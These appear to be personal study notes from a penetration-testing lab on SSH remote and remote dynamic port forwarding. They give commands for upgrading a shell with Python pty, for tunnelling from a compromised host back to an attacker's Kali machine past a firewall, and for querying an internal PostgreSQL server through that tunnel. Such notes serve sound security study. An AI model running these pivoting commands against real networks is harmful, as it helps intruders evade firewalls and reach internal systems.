 ### SSH Remote Port Forwarding
	- In a similar way that an attacker may execute a remote shell payload to connect back to an attacker-controlled listener, SSH remote port forwarding can be used to connect back to an attacker-controlled SSH server, and bind the listening port there
	- in remote port forwarding, the listening port is bound to the SSH server. Instead of the packet forwarding being done by the SSH server, in remote port forwarding, packets are forwarded by the SSH client.

![[Pasted image 20240121133021.png]]

	- We can connect from CONFLUENCE01 to our Kali machine over SSH. The listening TCP port 2345 is bound to the loopback interface on our Kali machine. Packets sent to this port are pushed by the Kali SSH server software through the SSH tunnel back to the SSH client on CONFLUENCE01. They are then forwarded to the PostgreSQL database port on PGDATABASE01.

- Example:
	- Enable SSH server on kali
		- ```sudo systemctl start ssh```
	- check if SSH port is open and working
		- ```sudo ss -ntplu```
	- TTY shell
		- ```python3 -c 'import pty; pty.spawn("/bin/sh")'```
	- Create SSH remote port forward
			- may have to explicity allow password-based authentification
				- Setting **PasswordAuthentication** to **yes** in **/etc/ssh/sshd_config**
		- ```ssh -N -R 127.0.0.1:4444:10.4.209.215:4444 kali@192.168.45.186```
			- -R = remote
			- -N = no shell being opened
	- confirm
		- ```ss -ntplu```

![[Pasted image 20240121134105.png]]

- Enumerate Postgres server on the loopback interface of our Kali
	- ```psql -h 127.0.0.1 -p 2345 -U postgres```
	- ```\l```

### SSH Remote Dynamic Port Forwarding
	- creates a dynamic port forward  in the remote configuration. The SOCKS proxy port is bound to the SSH server, and traffic is forwarded from the SSH client.

![[Pasted image 20240121180749.png]]

	- Remote dynamic port forwarding has only been available since October 2017's OpenSSH 7.6. Despite this, only the OpenSSH _client_ needs to be version 7.6 or above to use it - the server version doesn't matter.

##### New scenario
	- This time we find a Windows server (MULTISERVER03) on the DMZ network. The firewall prevents us from connecting to any port on MULTISERVER03, or any port other than TCP/8090 on CONFLUENCE01 from our Kali machine. But we can SSH _out_ from CONFLUENCE01 _to our Kali machine_, then create a remote dynamic port forward so we can start enumerating MULTISERVER03 from Kali.
